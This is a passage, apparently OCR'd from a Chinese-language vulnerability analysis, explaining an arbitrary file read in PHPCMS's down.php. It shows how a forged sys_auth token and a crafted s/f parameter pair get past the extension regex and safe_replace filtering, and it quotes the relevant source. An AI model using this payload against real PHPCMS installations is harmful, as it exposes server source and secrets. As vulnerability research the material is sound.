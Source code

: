 set_cookie跟进去就是调用sys_auth 加密函数来加密外部获取的sited值，将这里的siteid值再带入上面的userid_flash即可。

接着再返回去看这两个可控参数：s=$s、f=$f，$s带需要读取的目标文件，$f带自己构造的绕过规则检测值：

```
$a_k = urlencode(sys_auth("i=$i&amp;d=$d&amp;s=$s&amp;t=".SYS_TIME."&amp;ip=".ip()."&amp;m=".$m."&amp;f=$f&amp;modelid=".$modelid, 'ENCODE’, $pc_auth_key));
```

经过反复测试，可以采用如下参数，这里以读取down.php文件源码为例：

```
s=./phpcms/modules/content/down.ph&amp;f=p%3%25252%2*70C
```

解释一下这里的参数，s参数带的是要读取的down.php的源码文件，最后的p是由f参数的第一个字符p拼接过去的：



```
$fileurl = trim($f);
        if(!$downid || empty($fileurl) || !preg_match("/[0-9]{10}/", $starttime) || !preg_match("/[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/", $ip) || $ip != ip()) showmessage(L('illegal_parameters'));    
        $endtime = SYS_TIME - $starttime;
        if($endtime &gt; 3600) showmessage(L('url_invalid'));
        if($m) $fileurl = trim($s).trim($fileurl);
        if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(.|$)/i',$fileurl) ) showmessage(L('url_error'));
```

f=p%3%25252%2*70C ： f参数是绕过正则匹配检查的关键，最后咱们要构造这样的形式：./phpcms/modules/content/down.php&lt;，这样就能绕过所有匹配检测在最后的str_replace将”&lt;“给替换为空，紧接着就能带入读取文件了。

再看看分析过程中遇到的phpcms安全函数safe_replace:

/phpcms/libs/functions/global.func.php



```
function safe_replace($string) {
    $string = str_replace('%20','',$string);
    $string = str_replace('%27','',$string);
    $string = str_replace('%2527','',$string);
    $string = str_replace('*','',$string);
    $string = str_replace('"','&amp;quot;',$string);
    $string = str_replace("'",'',$string);
    $string = str_replace('"','',$string);
    $string = str_replace(';','',$string);
    $string = str_replace('&lt;','&amp;lt;',$string);
    $string = str_replace('&gt;','&amp;gt;',$string);
    $string = str_replace("{",'',$string);
    $string = str_replace('}','',$string);
    $string = str_replace('\','',$string);
    return $string;
}
```
